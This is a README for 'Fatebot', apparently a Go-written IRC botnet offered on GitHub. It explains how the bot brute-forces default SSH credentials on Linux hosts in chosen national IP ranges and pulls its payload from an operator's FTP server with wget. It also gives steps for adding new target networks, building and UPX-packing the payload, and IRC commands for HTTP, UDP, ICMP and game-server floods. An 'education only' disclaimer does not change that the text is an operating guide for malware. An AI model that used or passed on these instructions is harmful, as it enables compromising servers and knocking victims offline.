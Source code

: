 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of the page.</strong>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will Brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to the group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add the case for your ip range and return range of your ip.

		case var_name:
				return bot.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of the ip range that you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of the id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			bot.Scanner(UK_netList, false) //Just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of buffer is 100 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port to the target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united state of america network. 
		-r		Scan with random ip. 	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
